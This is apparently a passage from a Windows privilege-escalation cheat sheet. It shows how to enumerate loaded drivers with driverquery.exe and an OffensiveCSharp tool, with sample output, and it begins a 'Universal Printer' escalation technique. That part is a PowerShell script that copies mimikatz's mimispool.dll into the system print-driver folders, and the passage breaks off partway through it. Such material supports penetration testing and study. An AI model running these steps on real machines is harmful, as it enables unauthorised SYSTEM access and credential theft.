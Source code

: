 ## EoP - Evaluating Vulnerable Drivers

Look for vuln drivers loaded, we often don't spend enough time looking at this:

- [Living Off The Land Drivers](https://www.loldrivers.io/) is a curated list of Windows drivers used by adversaries to bypass security controls and carry out attacks. The project helps security professionals stay informed and mitigate potential threats.
- Native binary: DriverQuery.exe
    

- ```
    PS C:\Users\Swissky> driverquery.exe /fo table /si
    Module Name  Display Name           Driver Type   Link Date
    ============ ====================== ============= ======================
    1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
    3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
    ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
    AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
    acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
    acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
    AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
    acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
    ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
    <SNIP>
    ```
    
- [matterpreter/OffensiveCSharp/DriverQuery](https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery)
    

- ```
    PS C:\Users\Swissky> DriverQuery.exe --no-msft
    [+] Enumerating driver services...
    [+] Checking file signatures...
    Citrix USB Filter Driver
        Service Name: ctxusbm
        Path: C:\Windows\system32\DRIVERS\ctxusbm.sys
        Version: 14.11.0.138
        Creation Time (UTC): 17/05/2018 01:20:50
        Cert Issuer: CN=Symantec Class 3 SHA256 Code Signing CA, OU=Symantec Trust Network, O=Symantec Corporation, C=US
        Signer: CN="Citrix Systems, Inc.", OU=XenApp(ClientSHA256), O="Citrix Systems, Inc.", L=Fort Lauderdale, S=Florida, C=US
    <SNIP>
    ```
    

## EoP - Printers

### Universal Printer

Create a Printer

```
$printerName     = 'Universal Priv Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName

Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')
```